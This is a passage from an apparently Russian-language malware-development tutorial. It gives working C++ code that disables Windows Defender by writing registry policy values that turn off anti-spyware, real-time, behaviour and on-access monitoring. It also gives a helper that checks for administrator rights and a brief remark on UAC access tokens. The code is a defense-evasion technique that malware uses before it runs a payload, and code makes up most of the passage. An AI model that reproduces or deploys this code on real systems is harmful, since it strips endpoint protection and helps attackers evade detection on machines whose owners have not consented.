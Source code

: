 
```cpp
LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
"SOFTWARE\\Policies\\Microsoft\\Windows Defender", 
0, KEY_ALL_ACCESS, &key);
if (res == ERROR_SUCCESS) {
  RegSetValueEx(key, "DisableAntiSpyware", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegCreateKeyEx(key, "Real-Time Protection", 0, 0, 
  REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, 0, &new_key, 0);
  RegSetValueEx(new_key, "DisableRealtimeMonitoring", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableBehaviorMonitoring", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableScanOnRealtimeEnable", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableOnAccessProtection", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableIOAVProtection", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));

  RegCloseKey(key);
  RegCloseKey(new_key);
}
```

Но, как я уже писал, для этого требуются права администратора, поэтому мы создаем функцию, которая проверяет это:

```cpp
// check for admin rights
bool isUserAdmin() {
  bool isElevated = false;
  HANDLE token;
  TOKEN_ELEVATION elev;
  DWORD size;
  if (OpenProcessToken(GetCurrentProcess(), 
  TOKEN_QUERY, &token)) {
    if (GetTokenInformation(token, TokenElevation, 
    &elev, sizeof(elev), &size)) {
       isElevated = elev.TokenIsElevated;
    }
  }
  if (token) {
    CloseHandle(token);
    token = NULL;
  }
  return isElevated;
}
```

Начиная с Windows Vista, Контроль учётных записей пользователей (UAC) стал важной функцией для снижения некоторых рисков, связанных с повышением привилегий. В условиях UAC учётные записи группы локальных администраторов имеют два токена доступа: один с привилегиями стандартного пользователя, а другой с привилегиями администратора.   

